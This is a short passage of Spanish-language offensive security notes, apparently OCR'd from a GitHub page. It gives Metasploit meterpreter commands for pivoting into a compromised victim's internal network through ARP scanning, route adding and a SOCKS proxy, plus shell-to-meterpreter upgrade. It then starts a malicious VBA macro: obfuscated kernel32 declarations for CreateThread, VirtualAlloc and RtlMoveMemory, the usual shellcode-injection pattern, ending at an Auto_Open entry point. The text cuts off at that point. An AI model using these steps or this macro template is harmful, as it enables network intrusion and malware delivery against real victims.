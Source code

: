 Una vez tomado el equipo con meterpreter, se identificará otro objetivo dentro de la red interna de la víctima:

ipconfig

para identificar la interfaz y la IP+mascara del segmento interno

run arp\_scanner -r \&lt;ipinternadevictima.\*\&gt;

para identificar host vivos en el segmento

Background

para salir de meterpreter sin perder la sesión.

route add \&lt;ipinternavictima.0\&gt; \&lt;mascaravictima\&gt; \&lt;idSession\&gt;

para enrutar ese segmento a la comunicación

use auxiliary/server/socks4a



set srvhost 127.0.0.1

para direccionar como local las instrucciones desde kali

## Para pasar de shell a meterpreter

post/multi/manage/shell\_to\_meterpreter

Se le debe indicar la sesión que esté tomada



Macro example

#If Vba7 Then

Private Declare PtrSafe Function CreateThread Lib &quot;kernel32&quot; (ByVal Hpxhdrqmi As Long, ByVal Cyuo As Long, ByVal Cbp As LongPtr, Xrah As Long, ByVal Okmqted As Long, Rxgz As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib &quot;kernel32&quot; (ByVal Stbor As Long, ByVal Ycgy As Long, ByVal Xkvfcobfp As Long, ByVal Mzxdow As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib &quot;kernel32&quot; (ByVal Urwtaja As LongPtr, ByRef Pcjylen As Any, ByVal Rpuemu As Long) As LongPtr

#Else

Private Declare Function CreateThread Lib &quot;kernel32&quot; (ByVal Hpxhdrqmi As Long, ByVal Cyuo As Long, ByVal Cbp As Long, Xrah As Long, ByVal Okmqted As Long, Rxgz As Long) As Long

Private Declare Function VirtualAlloc Lib &quot;kernel32&quot; (ByVal Stbor As Long, ByVal Ycgy As Long, ByVal Xkvfcobfp As Long, ByVal Mzxdow As Long) As Long

Private Declare Function RtlMoveMemory Lib &quot;kernel32&quot; (ByVal Urwtaja As Long, ByRef Pcjylen As Any, ByVal Rpuemu As Long) As Long

#EndIf

Sub Auto\_Open()
